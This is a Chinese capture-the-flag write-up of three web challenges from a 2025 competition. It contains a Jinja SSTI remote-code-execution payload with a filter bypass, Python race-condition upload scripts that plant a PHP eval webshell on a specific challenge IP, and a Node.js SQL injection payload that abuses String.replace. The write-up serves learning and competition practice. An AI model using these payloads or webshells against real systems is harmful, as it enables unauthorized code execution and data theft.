








# 西湖论剑_2025

## Web

### Rank-l

经过测试，发现login的phone_number存在ssti





接着就RCE，发现不能用cat查看文件，先查看 /bin 目录，发现一个c4t

```Python
phone_number={{g.pop.__globals__.__builtins__['__import__']('os').popen('cd ..%0als bin').read()}}
```



用 c4t 查看文件，过滤了关键字 flag，用 %c 绕过

```Python
phone_number={{g.pop.__globals__.__builtins__['__import__']('os').popen('cd ..%0ac4t fl%cgf149'%(97)).read()}}
```



### Rank-U

密码爆破+文件上传条件竞争



尝试爆破密码，这个验证码能反复发包，不用ocr



到year2000时重定向了

admin/year2000成功登入



上传恶意文件会被后端删掉，考虑条件竞争，搓两个脚本

```JavaScript
import requests

while True:
    burp0_url = "http://139.155.126.78:27785/admin/index.php"
    burp0_cookies = {"PHPSESSID": "rrb6l90puu7eitrn6p61c7oj05"}
    burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Origin": "http://139.155.126.78:27785",
                     "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryKeHB9xqNYV5V9bWj",
                     "Upgrade-Insecure-Requests": "1",
                     "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36",
                     "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
                     "Referer": "http://139.155.126.78:17599/admin/index.php", "Accept-Encoding": "gzip, deflate, br",
                     "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}
    burp0_data = "------WebKitFormBoundaryKeHB9xqNYV5V9bWj\r\nContent-Disposition: form-data; name=\"file_upload\"; filename=\"shell.php\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php\r\necho file_get_contents('/flag');\r\n?>123\r\n------WebKitFormBoundaryKeHB9xqNYV5V9bWj--\r\n"
    r = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
    print(r.text.split('./Uploads/1f14bba00da3b75118bc8dbf8625f7d0/')[1].split('</p>')[0])
    filename = r.text.split('./Uploads/1f14bba00da3b75118bc8dbf8625f7d0/')[1].split('</p>')[0]
    with open('name.txt', 'w') as file:
        file.write(filename.replace('\n',''))
        file.close()
```
```JavaScript
import requests
url0 = 'http://139.155.126.78:24552/admin/Uploads/1f14bba00da3b75118bc8dbf8625f7d0/'

while True:
    with open('name.txt', 'r') as file:
        filename = file.readline()
        shellpath = url0 + filename
        # print(shellpath)
        data = {
            'chu0':'system("echo \'<?=eval($_POST[1]);?>\'>1.php");'
        }
        r1 = requests.post(url=shellpath, data=data)
        print(r1.status_code)
        if r1.status_code != 404:
            print(r1.status_code)
            print(r1.text)
```

这里存在disable_function，懒得重新竞争了，竞争成功后访问文件也有两种情况，500和200，一直竞争到200，用file_get_contents拿到文件内容然后输出即可，这里跑了10个上传脚本，一个拿flag的脚本，flag截图如下



### sqli or not

下载附件，看到有nodejs代码

```JavaScript
var express = require('express');
var router = express.Router();
module.exports = router;

router.get('/',(req,res,next)=>{
    if(req.query.info){
        if(req.url.match(/\,/ig)){
            res.end('hacker1!');
        }
        var info = JSON.parse(req.query.info);
        if(info.username&&info.password){
            var username = info.username;
            var password = info.password;
            if(info.username.match(/\'|\"|\\/) || info.password.match(/\'|\"|\\/)){
                res.end('hacker2!');
            }
            var sql = "select * from userinfo where username = '{username}' and password = '{password}'";
            sql = sql.replace("{username}",username);
            sql = sql.replace("{password}",password);
            connection.query(sql,function (err,rs) {
            if (err) {
                res.end('error1');
            }
            else {
                if(rs.length>0){
                res.sendFile('/flag');
                }else {
                res.end('username or password error');
                }
            }
            })
        }
        else{
            res.end("please input the data");
        }
       
}
    else{
        res.end("please input the data");
    }
})
```

这里容易看出，只要绕过两个判断，用万能密码即可登录获取`/flag`，第一个trick可以用&进行绕过，第二个trick主要目的是需要逃逸一个单引号出来使我们的万能密码生效，$`会匹配{username}前的全部内容，包括单引号，如此就可以逃逸一个单引号出来，闭合掉前面的单引号，进而绕过

payload如下

```JavaScript
/?info={'username':'1$` or 1=1'&info='password','password'}
```